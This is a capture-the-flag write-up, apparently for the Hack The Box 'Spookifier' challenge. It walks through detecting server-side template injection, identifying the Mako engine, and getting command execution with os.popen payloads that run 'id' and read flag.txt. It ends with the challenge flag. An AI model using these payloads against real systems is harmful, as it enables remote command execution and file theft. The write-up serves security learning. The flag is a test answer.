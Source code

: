 
> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

&nbsp;

![1](https://github.com/user-attachments/assets/5064c874-6b90-485d-abe7-c820170d8855)

As we can see, the application modifies the name with different fonts.

## SSTI

Let's provide the following input:

```
${9+9}
```

![2](https://github.com/user-attachments/assets/a00100bc-171c-4571-ae71-49d0236fe7a5)

A valid response. This means that the vulnerability is SSTI.

## Identifying the Template Engine

Before we move on to crafting our payload, we need to first identify the template engine being used by the server. 
There are two methods that we can follow.

### Using payloads

This graph from PayloadsAllTheThings gives us the steps to follow in order to identify the engine:

![image](https://github.com/user-attachments/assets/d724e4bc-b269-4b3d-91bb-ff85589dc98c)

Let's begin with the first payload.

```
${7*7}
```

![image](https://github.com/user-attachments/assets/72812659-f60a-4a54-a1c8-ef852881d3d7)

Since the payload returned a valid response, we move to the next payload:

```
a{*comment*}b
```

![image](https://github.com/user-attachments/assets/eca442fd-99d9-4c6f-9862-8d33162b6224)

Not a valid response, let's move to the next one.

```
${"z".join("ab")}
```

![image](https://github.com/user-attachments/assets/4f33f9f4-5592-4f52-ae43-9b6012c6abe7)

This tells us that the server is running a [Mako template engine](https://www.makotemplates.org/).

### Using code review

Alternatively, we can simply just read the code to identify the engine.
Let's start with the config file.

![image](https://github.com/user-attachments/assets/9c41f8c7-7a5d-439b-868e-84262d658fd6)

Looking at the `supervisord.conf` file, we can see that it runs the `/app/run.py` file.

![image](https://github.com/user-attachments/assets/420d32e0-926e-4c2a-a4ac-4878ac43c119)

Then `run.py` imports `app` from `application.main` and runs it on port 1337.

![image](https://github.com/user-attachments/assets/d10a10ad-aad3-4768-8cc1-5b15e72aadb8)

As we can see the `app` object is using Mako template.
The `web` is also being imported from `application.blueprints.routes`.

![image](https://github.com/user-attachments/assets/ad5c9e1b-9c1e-43fe-b406-e98f03440b03)

This script takes the argument passed to the `text` parameter and sends it to the `spookify()` function which is imported from `application.util`.

![image](https://github.com/user-attachments/assets/29efe56f-e608-4d5b-9fc4-2b1fe84ccf8f)

The `change_font()` function simply converts user input into a list and replaces it with it's mapped character from a different font.

### Payload

Since there is no input validation being performed, we can run arbitrary commands.

Let's access the `os` module and find our user.

```
${self.module.cache.util.os.popen('id').read()}
```

![3](https://github.com/user-attachments/assets/6ccc5105-a53e-4235-8600-1d9a771e6bf9)

We can now read the `flag.txt` file using a similar payload:

```
${self.module.cache.util.os.popen('cat ../flag.txt').read()}
```

![4](https://github.com/user-attachments/assets/44c793c6-52be-46eb-b976-b97055e59a32)

## Flag

```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```
